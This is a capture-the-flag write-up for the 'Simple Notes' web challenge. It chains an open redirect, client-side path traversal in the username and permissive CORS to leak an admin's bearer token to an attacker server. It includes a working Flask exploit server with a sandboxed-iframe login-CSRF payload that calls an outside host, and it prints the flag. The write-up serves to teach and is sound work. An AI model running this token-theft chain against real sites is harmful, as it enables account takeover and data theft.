

# Simple Notes

### Category

Web

### Description

```
XXX

Report a vulnerability: `curl -X POST -d "url=https://172.17.0.1:8000/csrf" https://localhost:5000/report -k`
```

Format : **Hero{flag}**<br>
Author : **Mizu**

## Write up

This website is a basic web note manager which involves stealing admin's notes. Thanks to the `/static/js/main.js` file it is possible to get all routes information.

```js
var loginAPI = async (username, password) => {
    var res = await fetchAPI("/api/login", "POST", {
}
var registerAPI = async (username, password) => {
    var res = await fetchAPI("/api/register", "POST", {
}
var logoutAPI = () => {
    location.href = "/logout?r=/login";
}
var profileAPI = async (user) => {
    var res = await fetchAPI(`/api/user/${user}`, "GET")
}
    var res = await fetchAPI(`/api/user/${user}/create`, "POST", {
}
var loadNoteAPI = async (user, uuid) => {
    var res = await fetchAPI(`/api/user/${user}/${uuid}`, "GET")
}
var editNoteAPI = async(user, uuid, title, content) => {
    var res = await fetchAPI(`/api/user/${user}/${uuid}/edit`, "POST", {
}
```

From these, it is possible to find the `/logout?r` endpoint which is vulnerable to open redirect. In addition, several endpoints use the `username` value inside the path of a `fetch` requests, making it vulnerable to client side path traversal. In case of a `fetch` with specific headers (in our case `Authorization`), which reach a server side redirect, the browser recreate the query with the same option to the new domains (more information [here](https://github.com/whatwg/fetch/issues/944)). Thanks to that, it is possible to leak the API bearer token if we control the admin username.

Thus, it is necessary to control the admin username or exploit a CSRF to log him into a vulnerable account. Something interesting in the challenge configuration is the usage of the Bearer token. In fact, he is retrieved from the localStorage before each request. This means that, in case of a CSRF, this value won't change and it would be possible to create a situation where the admin has a vulnerable front end account and his API bearer.

```js
var fetchAPI = async (path, method, data) => {
    var options = {};
    options.method = method;
    options.headers = {}
    options.headers["Content-Type"]  = "application/json";
    if (data)
        options.body = JSON.stringify(data);

    var bearer = localStorage.getItem("bearer"); // Token retrieved here :p
    if (bearer)
        options.headers["Authorization"] = `Bearer ${bearer}`;

    return fetch(path, options).then(d => d.json()).then((d) => { return d });
}
```

Unfortunately, no CSRF is possible as, the API enfore `application/json` content type which is not possible by a `form`. However, `/api` has a permissive CORS:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
...
```

In addition, the session cookie as `SameSite: None` attribute both issues allow to set cookie cross site via a fetch request inside a `sandbox` iframe. Bringing everything together and we get:

```py
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
cors = CORS(app, resources={
    r"/*": {
        "origins": "*"
    }
}, allow_headers=[
    "Authorization",
    "Content-Type"
], supports_credentials=True)

@app.route("/")
def index():
    print(request.headers)
    return ""

@app.route("/csrf")
def csrf():
    return """
    <div id="exploit"></div>

    <script>
        // Init
        var host = "https://localhost:5000"
        var username = "../../logout?r=https://172.17.0.1:8000/";
        var password = "mizu";

        // Change account
        var ifr  = document.createElement("iframe");
        ifr.sandbox = "allow-scripts allow-top-navigation";
        ifr.srcdoc  = `<script>
            fetch("${host}/api/login", {
                method: "POST",
                headers: {
                    "Content-Type": "application/json"
                },
                body: JSON.stringify({
                    "username": "${username}",
                    "password": "${password}"
                }),
                credentials: "include"
            }).then(d => d.json()).then((d) => {
                top.location.href = "${host}/api/";
            })
        <\x2Fscript>`;
        exploit.appendChild(ifr);
    </script>
    """

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000, ssl_context=("cert/cert.pem", "cert/key.pem"))

```

Then, we just need to make a good curl query to retrieve the admin's notes and the flag!



### Flag

```
Hero{Cl13nT_S1d3_P4tH_Tr4v3rS4l_T0_R3d1r3cT}
```
